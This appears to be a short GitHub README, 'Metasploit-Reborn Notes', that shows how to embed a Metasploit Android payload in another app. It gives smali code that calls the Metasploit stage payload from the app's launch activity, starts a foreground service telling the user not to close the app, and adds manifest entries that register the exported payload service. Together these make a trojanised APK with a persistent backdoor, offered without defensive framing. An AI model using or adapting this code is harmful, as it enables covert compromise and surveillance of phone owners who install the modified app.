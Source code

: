 
Metasploit-Reborn Notes :

<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-21-23.jpg" width=750px height=1000px>
</p>
<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-22-40.jpg" width=750px height=500px>
</p>

                                                      Hook Point 

At Launchable Activity

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V	
new-instance v0, Landroid/content/Intent;
const-class v1, Lcom/example/swagkarna/ForegroundService;
invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
.local v0, "serviceIntent":Landroid/content/Intent;
const-string v1, "inputExtra"
const-string v2, "Warning!!!.Dont Close This App"
invoke-virtual {v0, v1, v2}, Landroid/content/Intent;->putExtra(Ljava/lang/String;Ljava/lang/String;)Landroid/content/Intent;
invoke-static {p0, v0}, Landroidx/core/content/ContextCompat;->startForegroundService(Landroid/content/Context;Landroid/content/Intent;)V

``` 

At Manifest Level  :

```
Add Permission
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
----------------------------------------------------------------------------------------------------------------------------------------
<service android:enabled="true" android:exported="true" android:name="com.example.swagkarna.ForegroundService"/>
<service android:enabled="true" android:exported="true" android:name="com.metasploit.stage.MainService"/>		
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------


<h1>I Love Kali-Linux + Metasploit + Android and Hande-Ercel</h1>
